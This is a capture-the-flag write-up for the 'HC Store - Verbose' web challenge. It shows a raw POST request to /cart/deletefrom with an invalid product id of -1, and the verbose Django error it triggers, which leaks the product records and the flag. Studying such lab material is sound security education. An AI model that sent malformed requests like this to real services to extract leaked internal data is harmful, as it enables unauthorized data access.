# HC Store - Verbose

> This web store has a least one vulnerability that you can exploit to get the flag. The store is at https://hcstore-verbose.youcanhack.me.



## Solution

Solution is to set the value of product in the POST request body to an invalid id (like 0 or -1) in a request to /deletefrom. This can be done with an HTTP client like cURL / HTTPie. Doing so causes the web server to raise an error that has some juicy info in it including the challenge flag:

_Request_
```
POST /cart/deletefrom HTTP/1.1
Host: hcstore-verbose.youcanhack.me
Cookie: csrftoken=AsvlNaLwjCiudwz8LMSbhclnUGrtooyr; sessionid=k9dlpzlas2rynbfuk6jaxmq3k0v80ciu
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://hcstore-verbose.youcanhack.me/cart/122
Content-Type: application/json; charset=UTF-8
X-Csrftoken: AsvlNaLwjCiudwz8LMSbhclnUGrtooyr
Content-Length: 14
Origin: https://hcstore-verbose.youcanhack.me
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Pragma: no-cache
Cache-Control: no-cache
Te: trailers
Connection: close

{"product":-1}
```

_Response_
```js
{
    "errorCode": 404,
    "message": "Product does not exist.\nValid products [{'_state': <django.db.models.base.ModelState object at 0x7fde3873dad0>, 'id': 1, 'name': 'HC Flag', 'description': 'The flag that you want', 'price': Decimal('100.00'), 'flag': 'flag={IFoundAVerbose3rrorMessage}', 'image': 'hcflag.jpg'}, {'_state': <django.db.models.base.ModelState object at 0x7fde3873c810>, 'id': 2, 'name': 'Random Object', 'description': 'This is a random object you can buy for testing purposes', 'price': Decimal('1.00'), 'flag': '', 'image': 'randomobject.jpg'}]"
}

```


flag={IFoundAVerbose3rrorMessage}